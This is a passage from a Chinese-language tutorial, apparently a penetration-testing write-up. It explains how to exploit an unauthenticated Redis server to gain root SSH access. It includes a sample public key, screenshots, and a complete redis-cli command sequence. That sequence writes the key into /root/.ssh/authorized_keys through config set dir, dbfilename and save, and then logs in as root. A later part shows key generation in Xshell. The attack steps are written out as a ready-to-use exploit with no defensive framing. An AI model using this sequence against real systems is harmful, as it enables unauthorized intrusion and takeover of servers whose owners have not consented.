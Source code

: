 ```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCdPp3/tfIlmHhVKuaR5Ckd0uuv98Q6AusZP9ZJrrb8aRWniTNCdUvV7gfW5ctZxROXfUF+tvnd6So8MwR70AwNqaCsWrsUBPzJXcR1Zl89M1G9KulUOgF3rANKQ8dqZivouvs1DcqkyqWi1652tAQ+4xS8i/mhFeS0dxjajttcrzmirF9DPzlsKTzfbMpUYupRAOl7GikdB9dhPzH3xQ4Oem4UMeZbznPuT861msmNLByh3ni+szdrF8yqwbPkVSDDbUlFCppF9N+Fykra5Uuc/tkXZaxgAjBWdpeFsLnMPlBWKoN1BJpzwZHgG2iKLT7PJS5bqx+RdkD7XJy9eqXL root@mail.test.com
```
(2) 创建一个键名为x  键值为公钥文件里面的内容
![图片](https://ae01.alicdn.com/kf/U44331649feb147dab91ca25001326aa3v.png)

(3) 利用公钥文件以及对应的私钥进行ssh登陆：

![图片](https://ae01.alicdn.com/kf/U8ac1ae8b94f149b5910668aa64ff7efbf.png)

![图片](https://ae01.alicdn.com/kf/U60dfd4695ab2453e983459b2fd69d4faV.png)

或者：

```
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h x.x.x.x -x set crackit
redis-cli -h x.x.x.x
     > config set dir /root/.ssh/
     > config get dir
     > config set dbfilename "authorized_keys"
     > save
ssh -i id_rsa root@x.x.x.x
```
### windows下利用ssh连接工具生成公钥文件：
利用xshell生成公钥文件：

![图片](https://ae01.alicdn.com/kf/U66ad612fef9945aab43743b1436a2b05y.png)

点击 “ 新建用户密钥生成向导”

![图片](https://ae01.alicdn.com/kf/Ufe7fad1f5b174986a83dccb26d581e9aP.png)

如上图选择，然后点击 下一步

![图片](https://ae01.alicdn.com/kf/U3e88f9196c6e4f9fa783acc5141ae25au.png)

公钥对已经生成，点击 下一步

![图片](https://ae01.alicdn.com/kf/U0012152590764e7b9d4ed6d1ba9b6c53L.png)

输入一个密钥加密的密码，用于我们远程登陆

![图片](https://ae01.alicdn.com/kf/U4408af9a655b4e4bab4c82286e395a7fX.png)

可以看到已经生成

![图片](https://ae01.alicdn.com/kf/U86fb0d55037442eaa519322da9f32a9cA.png)
